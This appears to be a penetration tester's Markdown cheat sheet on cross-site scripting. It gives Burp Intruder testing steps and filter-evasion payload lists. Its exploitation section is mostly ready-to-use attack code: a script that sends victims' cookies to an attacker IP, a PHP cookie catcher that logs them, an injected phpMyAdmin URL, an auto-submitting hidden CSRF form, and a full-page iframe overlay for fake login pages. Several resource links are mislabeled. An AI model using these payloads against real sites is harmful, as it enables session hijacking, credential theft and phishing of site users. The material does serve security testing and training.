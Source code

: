 ```yaml
---
title: XSS and Javascript
category: Web Application
order: 5
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> <x>'"()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> <script>alert(42);</script> </code>

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
#Attacker
python -m SimpleHTTPServer 

#Victim
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* 
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
[Commix](http://www.kitploit.com/2015/04/commix-automated-all-in-one-os-command.html)
[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
[CGI-Bin](https://www.hellboundhackers.org/articles/read-article.php?article_id=7)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

